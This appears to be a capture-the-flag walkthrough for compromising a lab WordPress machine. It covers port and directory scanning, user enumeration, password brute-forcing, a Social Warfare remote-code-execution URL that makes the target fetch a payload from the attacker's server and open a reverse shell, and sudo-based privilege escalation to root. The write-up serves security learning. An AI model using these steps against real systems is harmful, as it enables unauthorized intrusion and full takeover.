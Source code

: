 We have the ip on the machine and we get the nmap results.

We have 2 ports open on it 22 and 80. We go for website first.

We can see a wordpress dir after running a dirb scan. Enumerate the wordpress users.

We see 2 users max and admin. We can brute-force the password for user max.
max:opensesame.

Now, we found the users but we also saw there that there were no plugins or themes so that was pretty much uuseless here.

But in the profile page of max we can see something called [social warfare](https://wpscan.com/vulnerability/9259) data. Now this is a classic RCE vuln.

Now we make a payload.txt file and host our own http server using python.

python3 -m http.server 80. Mark that payload.txt file should be in the same dir where you start the server.

__http://mach_ip/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ifconfig_ip/rce_payload.txt__

we put in reverse shell code in payload file and listen on port we kept.

We got a shell and we navigate over to user max's dir. There we find 2 txt files which we cant open and an rsa priv key
deep within the dir(s).

As we have the rsa key we can ssh into server as max and get the first flag.

We can use sudo -l command here to see who else has access to which commands. Here, steven can use /usr/sbin/service.
We can use that login as steven as it requires no password.

sudo -u steven /usr/sbin/service ../../bin/bash.

NOTE: /bin/bash is always in the root folder. So we need to switch dir ../../ from home to root.

We can use the same sudo -l command to see root user has access to run a script. Here, root can /opt/tools/
server-health.sh

But we can't find any scripts like that. So we can make one.

server-health.sh 
--> 
#! /bin/bash
bash
<--

Running this script we can root access.

Now we can get both the flags steven and root.
